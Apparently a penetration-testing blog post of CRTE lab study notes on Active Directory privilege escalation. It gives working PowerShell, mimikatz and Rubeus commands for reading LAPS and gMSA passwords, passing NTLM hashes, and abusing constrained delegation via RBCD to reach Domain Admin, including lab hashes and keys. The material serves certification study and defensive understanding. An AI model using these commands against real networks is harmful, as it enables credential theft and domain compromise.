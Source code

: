 ```yaml
---
title: "2 - AD Privesc"
classes: single
header:  
  teaser: /assets/images/posts/crte/crte-teaser3.jpg
  overlay_image: /assets/images/main/header9.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "LAPS, gMSA and Constrained Deleg"
description: "LAPS, gMSA and Constrained Deleg"
categories:
  - notes
  - crte
tags:
  - intermediate
  - AD
  - Windows
  - privesc 
toc : true
---
```

<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="nullified" data-description="Support me on Buy me a coffee!" data-message="" data-color="#FF813F" data-position="Right" data-x_margin="18" data-y_margin="18"></script>

# AD Privesc

Some content is the same as in CRTP:

[CRTP AD Privilege Escalation](https://MashrurRahmanRawnok.github.io/notes/crtp/domprivesc/)

## LAPS

LAPS (Local Administrator Password Solution) provides centralized storage of local users passwords in AD with periodic randomizing.

> *…it mitigates the risk of lateral escalation that results when customers have the same administrative local account and password combination on many computers.*

- Storage in clear text, transmission is encrypted (Kerberos).
- Configurable using GPO.
- Access control for reading clear text passwords using ACLs. 
- Only Domain Admins and explicitly allowed users can read the passwords.

![Alt text](/assets/images/posts/crte/1.png){: .align-center}

On a computer, if LAPS is in use, a library AdmPwd.dll can be found in the:
```powershell
C:\Program Files\LAPS\CSE\ directory.
```

**To find users who can read the passwords in clear text machines in OUs**

PowerView:
```powershell
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}
```

**To enumerate OUs where LAPS is in use along with users who can read the passwords in clear text**

Using Active Directory module
```powershell
Get-LapsPermissions.ps1
```

Using LAPS module (can be copied across machines):
```powershell
Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1
Find-AdmPwdExtendedRights -Identity OUDistinguishedName
```

**Once we compromise the user which has the Rights, use the following to read clear-text passwords**

PowerView:
```powershell
Get-DomainObject -Identity <targetmachine$> | select - ExpandProperty ms-mcs-admpwd
```

Active Directory module:
```powershell
Get-ADComputer -Identity <targetmachine> -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
```

LAPS module:
```powershell
Get-AdmPwdPassword -ComputerName <targetmachine>
```


## gMSA

A group Managed Service Account (gMSA) provides automatic password management, SPN management and delegated administration for service accounts across multiple servers.

> Use of gMSA is recommended to protect from Kerberoast type attacks!

- A 256 bytes random password is generated and is rotated every 30 days.
- When an authorized user reads the attribute 'msds-ManagedPassword’ the gMSA password is computed.
- Only explicitly specified principals can read the password blob. 
- Even the **Domain Admins can't read it by default**.

**A gMSA has object class *msDS-GroupManagedServiceAccount*. This can be used to find the accounts**

Using ADModule:
```powershell
Get-ADServiceAccount -Filter *
```

Using PowerView:
```powershell
Get-DomainObject -LDAPFilter '(objectClass=msDS-GroupManagedServiceAccount)'
```

**The attribute *msDS-GroupMSAMembership** (PrincipalsAllowedToRetrieveManagedPassword) lists the principals that can read the password blob**

Read it using ADModule:
```powershell
Get-ADServiceAccount -Identity jumpone -Properties * | select PrincipalsAllowedToRetrieveManagedPassword
```

**The attribute *msDS-ManagedPassword* stores the password blob in binary form of MSDS-MANAGEDPASSWORD_BLOB**

Once we have compromised a principal that can read the blob. Use ADModule to read and DSInternals to compute NTLM hash:
```powershell
$Passwordblob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'
Import-Module C:\AD\Tools\DSInternals_v4.7\DSInternals\DSInternals.psd1
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
```

**The *CurrentPassword* attribute in the $decodedpwd contains the clear-text password but cannot be typed!**

Passing the NTLM hash of the gMSA, we get privileges of the gMSA:
```powershell
sekurlsa::pth /user:jumpone /domain:us.techcorp.local /ntlm:0a02c684cc0fa1744195edd1aec43078
```

**We can access the services and machines (server farms) that the account has access to**


## Golden gMSA

**gMSA password is calculated by leveraging the secret stored in KDS root key object**

We need following attributes of the KDS root key to compute the Group Key Envelope (GKE):
```powershell
- cn
- msKds-SecretAgreementParam
- msKds-RootKeyData
- msKds-KDFParam
- msKds-KDFAlgorithmID
- msKds-CreateTime
- msKds-UseStartTime
- msKds-Version
- msKds-DomainID
- msKds-PrivateKeyLength
- msKds-PublicKeyLength
- msKds-SecretAgreementAlgorithmID
```

- Once we compute the GKE for the associated KDS root key we can generate the password offline.
- Only privilege accounts such as Domain Admins, Enterprise Admins or SYSTEM can retrieve the KDS root key.
- Once the KDS root key is compromised we can’t protect the associated gMSAs accounts.
- Golden gMSA can be used to retrieve the information of gMSA account, KDS root key and generate the password offline.



## Contrained Delegation (Kerberos Only)

> It requires an additional forwardable ticket to invoke S4U2Proxy.

- We cannot use S4U2Self as the service doesn’t have TRUSTED_TO_AUTH_FOR_DELEGATION value configured.

We can leverage RBCD to abuse Kerberos Only configuration:

1. Create a new Machine Account
2. Configure RBCD on the machine configured with Constrained Delegation.
3. Obtain a TGS/Service Ticket for the machine configured with Constrained


Delegation by leveraging the newly created Machine Account:
```powershell
Request a new forwardable TGS/Service Ticket by leveraging the ticket created in previous step.
```


Enumerate constrained delegation using ADModule:
```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

Since **ms-DS-MachineAccountQuota is set to 10** for all domain users, any domain user can create a new Machine Account and join the same in the current domain.

Create a new Machine Account using Powermad.ps1 script:

[Powermad on GitHub](https://github.com/Kevin-Robertson/Powermad)

```powershell
. C:\AD\Tools\Powermad\Powermad.ps1
New-MachineAccount -MachineAccount studentcompX
```
**We already compromised us-mgmt**

**Configure RBCD** on us-mgmt using us-mgmt$ computer account:
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:us-mgmt$ /aes256:cc3e643e73ce17a40a20d0fe914e2d090264ac6babbb86e99e74d74016ed51b2 /impersonateuser:administrator /domain:us.techcorp.local /ptt /nowrap
```
Using ADModule:
```powershell
Set-ADComputer -Identity us-mgmt$ -PrincipalsAllowedToDelegateToAccount studentcompX$ -Verbose
```

**Obtain a TGS/Service Ticket** for us-mgmt (machine configured with Constrained Delegation) by leveraging the newly created Machine Account (studentcompx):
```powershell
C:\AD\Tools\Rubeus.exe hash /password:P@ssword@123
C:\AD\Tools\Rubeus.exe s4u /impersonateuser:administrator /user:studentcompX$ /rc4:D3E5739141450E529B07469904FE8BDC /msdsspn:cifs/us-mgmt.us.techcorp.local /nowrap
```

**Request a new forwardable TGS/Service Ticket by leveraging the ticket created in previous step**
```powershell
C:\AD\Tools\Rubeus.exe s4u /tgs:doIGxjCCBsKgAwIBBaEDAgEWoo... /user:us-mgmt$ /aes256:cc3e643e73ce17a40a20d0fe914e2d090264ac6babbb86e99e74d74016ed51b2 /msdsspn:cifs/us-mssql.us.techcorp.local /altservice:http /nowrap /ptt
```

**Access the us-mssql using WinRM as the Domain Admin**:
```powershell
winrs -r:us-mssql.us.techcorp.local cmd.exe
```
